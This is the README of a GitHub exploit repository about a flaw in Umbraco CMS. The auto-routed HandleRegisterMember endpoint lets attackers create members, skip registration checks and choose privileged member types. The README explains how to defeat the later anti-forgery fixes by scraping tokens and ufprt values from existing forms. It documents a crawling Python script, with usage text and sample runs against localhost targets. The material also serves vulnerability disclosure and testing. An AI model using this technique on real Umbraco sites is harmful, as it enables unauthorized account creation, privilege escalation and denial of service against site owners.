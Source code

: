 # UmbRegister-Spoofer

## Background

Since version 6.2.0 Umbraco has shipped with a few macro snippets relating to membership. These allow developers to get started with implementing common membership features such as registration and login. Because these snippets require server-side processing, Umbraco also ships with some surface controllers which are _auto-routed_. This means that the endpoints are exposed on _every_ Umbraco site, regardless of whether they use membership or not. One of these controllers is the `UmbRegisterController` which contains a single method, `HandleRegisterMember`. This method creates a new member in the Umbraco database.

If you don't use membership on the front-end of your site then the worst an attacker can do with this is fill your database up with useless members and potentially cause a denial of service. If you do use membership then it may allow an attacker to bypass your existing registration process and any validation you may be doing as part of it (perhaps you require payment, or maybe you don't have a public registration form at all and you create the members yourself in the backoffice).

Using this method it would also be possible for an attacker to create an account with a different member type than you intended, possibly with elevated privileges (this would actually be possible on any site that binds to the `RegisterModel` in their registration form and passes it directly to the `MembershipHelper.RegisterMember` method).

Umbraco 7.13.0 and 8.0.0 attempted to solve this issue by adding `[ValidateAntiForgeryToken]` attributes on these controllers. However, this only prevented CSRF attacks (see my other repo about `UmbProfileController` for an example). It was still possible to poke `HandleRegisterMember` by grabbing the anti-forgery cookie and token from an existing form on the site.

Umbraco 7.15.0 and 8.1.0 further attempted to solve this in a way I don't fully understand yet, but I've discovered it can be exploited by grabbing both the anti-forgery token and `ufprt` fields from an existing form on the site (as opposted to just the anti-forgery token in previous versions). Interestingly it also possible to use _only_ the anti-forgery token from a form that was created using `Html.BeginForm` (as opposed to `Html.BeginUmbracoForm` - credit to Ronald Barendse for discovering this which prompted me to investigate further).

## Exploitation

This repository contains a Python script which can crawl an Umbraco site to search for anti-forgery tokens and use them to poke the `HandleRegisterMember` endpoint:

```
usage: umbregister_spoofer.py [-h] [--crawl] [--name NAME] [--email EMAIL]
                              [--username USERNAME] [--password PASSWORD]
                              [--type TYPE]
                              URL

Attempt to create an member account on an Umbraco site using the public `HandleRegisterMember` endpoint.

positional arguments:
  URL                   the base URL of the Umbraco site

optional arguments:
  -h, --help            show this help message and exit
  --crawl, -C           crawl the site to find an anti-forgery cookie, token,
                        and ufprt to send with the request
  --name NAME, -n NAME  the new member's name
  --email EMAIL, -e EMAIL
                        the new member's email address
  --username USERNAME, -u USERNAME
                        the new member's username
  --password PASSWORD, -p PASSWORD
                        the new member's password
  --type TYPE, -t TYPE  the member type alias

Note that it is necessary to crawl for the anti-forgery tokens in Umbraco versions 7.13 and up.
```

This script was developed under Python 3.7.4 but may work with other versions. Note that it will always result in an HTTP 500 error which may or may not mean that it succeeded (you will need to check the backoffice or attempt a login).

### Examples

The included Visual Studio solution contains a number of target projects running different versions of Umbraco. Each of them contains a dummy contact form from which tokens can be extracted.

#### Umbraco 6.2.0-7.12.4

The endpoint can be acessed without a token so we can run the script with just the URL parameter.

```
$ python umbregister_spoofer.py https://localhost:44303/
Request URL: https://localhost:44303/Umbraco/Surface/UmbRegister/HandleRegisterMember
Parameters:
{'registerModel.Email': 'neo@matrix.com',
 'registerModel.Name': 'Neo',
 'registerModel.Password': 'Umbraco12345!',
 'registerModel.Username': 'N30'}
HTTP Error 500: Internal Server Error
```

#### Umbraco 7.13.0-8.1.0

Pass the `-C` parameter to tell the script to crawl the site to find tokens:

```
$ python umbregister_spoofer.py -C https://localhost:44389/
Crawling URL: https://localhost:44389/
- Anti-forgery cookie not present. Continuing to crawl...
Crawling URL: https://localhost:44389/blog/
- Anti-forgery cookie not present. Continuing to crawl...
Crawling URL: https://localhost:44389/contact/
- Found anti-forgery cookie.
- Found anti-forgery token and ufprt. This should be everything we need.
- Stop crawling and proceed with exploit? [Y/N] Y
Request URL: https://localhost:44389/Umbraco/Surface/UmbRegister/HandleRegisterMember
Parameters:
{'__RequestVerificationToken': 'egnI0UOSQl730fgxLvgEBMiy8KF_GSq3DA8bupvXVPaLWnsE3GipRnmvatyBK2j5mHGouf53Zmw7jhX4wSWlQA7Uh_5U-I9T9lGbsquH2QxmNz4MufOc3patEyN9t1zE3ajIbtYcX8ZfEvS6I6eIROHF3GmCVbhfzVijbbbaTjYFdEOSUN9imjvXqbXqpoxjYIlR9dQtk2Ys2n5awT1_akxAYVm754MaC3rDXg_5J3mWbsx3IpNhZzFsunknYN5hK611i2HLaKizzpxaLl1AN9DRV6CAtccUBivc4Uq4-LAWfTBIhYgySBvzhC38MUq2bbMc6Aymii3u_DcMLRtHqELiWMNET1oKwIrRXIaxah9l3G7u0Jm8L0xOOIT0zeBnBUqhjEVess2HIX4gaIVzbx4uhPKBZopt4urHdDa5CEJXGViq_-AysB9IxEOBwungTdT4gR7bVH8Zr_pguAFLSCAbsW_xV-YyV7--6zBtJoCwdraLUBo9UyL81JBqmaUzBURwzsGoMGjKt6hZk6RFphOdATxUd1x8bIloR3gcMkkhOteMpIVMPoZz4eD11gJ90',
 'registerModel.Email': 'neo@matrix.com',
 'registerModel.Name': 'Neo',
 'registerModel.Password': 'Umbraco12345!',
 'registerModel.Username': 'N30',
 'ufprt': '90194FDCDDE128A19688E33985018BABFB7E1FE853413A9249401336B5DFAB456130C8026245F6B7AEB73485504A99972B4218BA92CDD70FF54A6BC844EAC65B3D19FC8B45CF85645D61240254B0F56DDD8DF0082118647AD10BF8A1174B30B808B64C1B47A33F7683A228144166B18F21E262A8F9AADA45938D63EC4AF967A036F735CAC7B57B2E845126D001B388DD'}
HTTP Error 500: Internal Server Error
```
